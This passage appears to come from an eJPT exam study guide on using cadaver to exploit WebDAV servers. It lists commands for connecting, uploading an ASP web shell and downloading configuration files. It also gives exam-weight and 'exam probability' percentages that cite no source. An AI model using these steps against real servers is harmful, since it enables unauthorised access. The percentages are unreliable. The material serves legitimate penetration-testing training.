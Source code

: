 **🎯 Professional Penetration Testing Practice:**
- Document all downloaded files for analysis
- Maintain organized directory structure for team collaboration
- Implement backup access methods for reliability
- Follow systematic approach for comprehensive testing

---

## 🎯 eJPT Exam Mastery Section

### **📊 Exam Weight Distribution:**
Understanding the relative importance of Cadaver skills in the eJPT exam context:

- **Manual WebDAV Exploitation:** 40% of file upload attack scenarios
- **Web Shell Deployment:** 50% of maintaining access techniques  
- **File Transfer Operations:** 30% of post-exploitation activities
- **Interactive Session Management:** 35% of manual testing proficiency

### **🏆 Must-Master Commands for eJPT Success:**

#### **Level 1 - Essential Commands (95% exam probability):**
These commands form the core foundation and appear in virtually every WebDAV exploitation scenario.

```bash
# Basic connection - FUNDAMENTAL SKILL
cadaver http://target/webdav
# Expected: Authentication prompt and session establishment

# File upload for exploitation - CORE TECHNIQUE
put /usr/share/webshells/asp/webshell.asp
# Expected: Progress bar showing successful upload

# Directory listing - RECONNAISSANCE
ls
# Expected: File and directory listing with metadata

# Exit session - BASIC OPERATION
quit
# Expected: Clean session termination
```

#### **Level 2 - Important Commands (70% exam probability):**
These commands enhance efficiency and provide additional capabilities during exploitation.

```bash
# Directory navigation - EXPLORATION
cd directory_name
pwd
# Expected: Location confirmation and directory traversal

# File download - INTELLIGENCE GATHERING
get config_file.xml
# Expected: Local file creation with progress indication

# Directory creation - ORGANIZATION
mkcol uploads
# Expected: New directory creation for organized operations
```
